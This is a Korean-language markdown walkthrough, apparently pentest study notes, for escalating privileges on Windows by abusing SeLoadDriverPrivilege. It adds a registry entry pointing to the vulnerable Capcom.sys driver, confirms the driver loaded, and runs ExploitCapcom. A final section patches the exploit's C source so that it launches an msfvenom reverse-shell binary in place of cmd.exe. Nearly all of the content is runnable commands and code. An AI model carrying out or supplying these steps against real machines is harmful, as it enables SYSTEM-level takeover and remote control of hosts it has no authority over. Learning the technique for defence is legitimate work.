 ### cl.exe로 컴파일 (Visual Studio 2019)
```cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp```

### 드라이버에 참조 추가
- [Capcom.sys 다운로드](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
```reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"```

### 드라이버 로드 여부 확인
- [DriverView.exe 사용](http://www.nirsoft.net/utils/driverview.html)
```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

### Privilege is Enabled 확인
```EnableSeLoadDriverPrivilege.exe```

### Capcom Driver is Listed 확인
```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

### ExploitCapcom 도구를 사용하여 권한 확대
- Visual Studio로 컴파일한 후 [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) 도구를 사용
```.\ExploitCapcom.exe```

<br/><br/>
## 대체 익스플로잇 - GUI 없음
- `ExploitCapcom.cpp` 코드를 수정하여 `"C:\\Windows\\system32\\cmd.exe"`를 `msfvenom`으로 생성된 리버스 셸 바이너리)`c:\ProgramData\revshell.exe`)로 대체
```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```
```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```
